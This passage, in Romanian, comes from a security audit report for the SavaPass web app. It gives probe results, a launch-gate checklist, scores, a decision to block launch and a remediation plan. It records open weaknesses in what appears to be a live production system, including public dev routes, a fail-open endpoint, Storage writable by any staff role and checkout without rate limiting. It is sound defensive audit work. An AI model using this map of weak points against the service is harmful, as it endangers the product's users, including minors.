| P9 Rate limiting | [!] | Limitare atomică există pe API-uri dashboard, lipsește pe checkout și formulare publice. |
| P10 Plăți | [~] | Cash, sumă server-side și confirmare atomică; rezervarea stocului este nesigură. |
| P11 AI/LLM | N/A | Nu există AI în produs. |
| P12 Mobile nativ | N/A | Produs web responsive, fără bundle/token storage nativ. |
| P13 Email/SMS/notificări | [~] | Escaping și coadă persistată; claim concurent și cron production incomplet. |
| P14 Webhookuri/integrări | N/A | Stripe/webhookul vechi este eliminat; Resend este apel outbound, nu webhook inbound. |
| P15 Logging/monitoring/audit | [~] | Logs Vercel și audit table există; audit best-effort, fără alertare demonstrată. |
| P16 Deployment/infrastructură | [!] | HTTPS și rollback Vercel există; dirty deploy, drift live și rute dev publice. |
| P17 Supply chain/CI | [!] | Lockfile prezent; un advisory High și zero workflow-uri CI. |
| P18 Privacy/retenție | [!] | Politică publică există, dar este draft; procesele pentru minori, retenție și DSAR nu sunt demonstrate. |
| P19 Backup/recovery/incidente | [!] | Plan Free, fără backup off-site/restore drill/RPO/RTO/owner de incident demonstrat. |
| P20 Teste de securitate | [~] | Build/type/lint și 22 din 23 teste executate trec; full integration este nesigur de rulat pe prod. |
| P21 Findings | [x] | Findings au exploit, impact, fix, dovadă, owner și termen. |
| P22 Launch gate | [!] | Trei High și mai multe blocante absolute deschise. |
| P23 Scor și decizie | [x] | Scorurile și decizia sunt completate mai jos. |

# 6. Probe și rezultate de verificare

| Verificare | Rezultat |
|---|---|
| `npm run build` | Pass, 81 pagini generate |
| `npm run typecheck` | Pass |
| `npm run lint` | 0 erori, 5 warnings |
| Teste unitare sigure | 21/21 pass |
| Test staff live read-only | 1 pass, 1 fail; admin credential autentificat, marker test incorect |
| `npm audit --omit=dev` | 1 High: `nanoid@3.3.17` |
| Secret pattern scan | 69 commit-uri, zero prefixuri high-confidence; env files absent din history |
| Supabase Security Advisor | 1 warning: leaked-password protection disabled |
| RLS live | Activ pe toate tabelele publice listate |
| Storage live | `media` public, fără MIME/size limit, orice staff poate insert/update/delete |
| Capacity DB | Niciun constraint/trigger care impune numărul de locuri |
| HTTPS | Pass, HSTS activ |
| CSP/XFO/nosniff/referrer/permissions | Lipsesc pe homepage și login |
| `/api/board/tickets/check-in` fără auth | `401` |
| `/api/member/qr` fără auth | `401` |
| export prezență fără auth | `401` |
| `/admin` fără auth | `307` către login |
| `/api/notifications/due` fără secret | `401` pe metoda GET corectă |
| `/api/keep-warm` fără secret | `200`, confirmă fail-open live |
| `/dev/rezervare-cash` și `/dev/tokens` | `200` în production |

Testul browser end-to-end pentru feature-ul staff nu a putut fi finalizat: runnerul Playwright disponibil nu avea browser instalat, iar fallback-ul local a eșuat la încărcarea modulului pe Windows. După două eșecuri nu s-a repetat. Nicio concluzie server-side despre flagul Vercel nu este prezentată ca verificată.

# 7. P22 Final launch gate

## Blocante absolute

- [~] Niciun secret activ în cod sau Git. Scanarea high-confidence trece, dar nu a fost rulat un scanner dedicat complet și Vercel env nu a putut fi auditat.
- [x] Nicio vulnerabilitate Critical deschisă.
- [!] Nicio vulnerabilitate High exploatabilă deschisă. H-01 și H-02 sunt deschise.
- [x] Autentificarea este verificată server-side în paginile/acțiunile sensibile.
- [~] Autorizarea cross-user este testată. Politicile și testele statice sunt bune; suita DB completă nu este izolată.
- [x] Baza de date aplică ownership pentru datele utilizatorilor și evaluatori.
- [x] Operațiile admin sunt protejate în app; Storage rămâne excepția care blochează gate-ul upload.
- [!] Rate limiting există pentru auth și operații costisitoare. Lipsește pe checkout/formulare publice.
- [x] Plățile cash și sumele sunt calculate/verificate server-side.
- N/A Webhookurile de plată sunt verificate. Nu există webhook în release candidate.
- [!] Uploadurile sunt validate. Acțiunea Next da, direct Storage API nu.
- N/A Output AI neîncrezător. Nu există AI.
- [!] Backupul poate fi restaurat. Nu există dovadă de restore.
- [x] Erorile publice nu expun secrete în probele efectuate.
- [~] HTTPS și headerele sunt active. HTTPS/HSTS da, restul lipsesc.
- [!] Datele pot fi exportate și șterse prin proces demonstrat.
- [!] Monitoringul și alertele funcționează. Logs există, alerte nu sunt demonstrate.
- [~] Există rollback. Vercel are rollback de cod, nu recovery DB/schema verificat.
- [!] Există responsabil și runbook pentru incidente. Nu au fost găsite.

Nu s-au acordat excepții temporare pentru findings Medium/Low. Orice acceptare viitoare trebuie să aibă owner, termen și dată de expirare.

# 8. P23 Scor final

```text
Secrets: 7/10
Authentication: 6/10
Authorization: 6/10
Database: 7/10
Input validation: 7/10
API security: 5/10
Browser security: 4/10
Storage: 3/10
Rate limiting: 3/10
Payments: 6/10
AI security: N/A
Mobile security: N/A
Monitoring: 4/10
Deployment: 3/10
Supply chain: 4/10
Privacy: 4/10
Recovery: 2/10
```

## Decizie

```text
[ ] SAFE TO LAUNCH
[ ] SAFE ONLY FOR PRIVATE BETA
[ ] NOT SAFE TO LAUNCH
[x] BLOCKED PENDING SECURITY FIXES
```

Motivul deciziei:

```text
SavaPass are controale solide pentru RLS, permisiuni server-side, QR și operațiile atomice de scanare/plată cash. Totuși, un rol operațional poate modifica direct Storage, checkout-ul anonim poate bloca sau depăși capacitatea, iar producția nu are recovery verificat ori o sursă Git reproductibilă. Acestea sunt riscuri directe pentru integritate, venit și datele minorilor. După închiderea celor trei High, este necesar un retest scurt al auth, Storage, concurenței la rezervare și restore-ului înainte de beta publică.
```

Top trei acțiuni rămase:

1. Restrânge politicile `media` la admin și impune MIME/size/path la nivel de Storage.
2. Mută rezervarea într-o tranzacție DB atomică, cu idempotency, rate limit și expirare automată.
3. Creează baseline-ul curat de producție: elimină conturile test, versionează migrațiile, deploy din commit curat și demonstrează backup + restore.

# 9. Ordinea recomandată de remediere

## În 48 de ore

1. H-01 Storage policies și bucket limits.
2. H-02 dezactivează temporar checkout-ul public sau pune limitare compensatorie până la RPC-ul atomic.
3. M-01 dezactivează conturile/loginul staff de test din production.
4. Actualizează `nanoid` și confirmă zero High/Critical în audit.

## În 7 zile

1. H-03 commit migrații, deploy curat, backup și restore drill.
2. M-02 open redirect.
3. M-03 rate limiting, payload limits și `CRON_SECRET` fail-closed.
4. M-04 security headers.
5. M-05 CSV neutralization.

## Înainte de următoarea recrutare

1. Review juridic al politicii și temeiului pentru minori.
2. Procedură de export/ștergere și retention jobs.
3. Teste pe Supabase izolat, MFA pentru admin/board, alertare și incident runbook.

## Retest minim obligatoriu

- policy matrix live pentru anon/member/scanner/interviewer/statistici/board/admin;
- upload valid/invalid direct prin Storage API pentru fiecare rol;
- test concurent de rezervare și idempotency;
- expirare automată și eliberarea locului;
- login/logout/reset/MFA și toate payloadurile de open redirect;
- `npm audit`, secret scan, typecheck, lint, full tests și build în CI;
- headers scan pe toate tipurile de rută;
- restore DB plus Storage pe un proiect izolat;
- export/ștergere pentru un candidat sintetic minor.
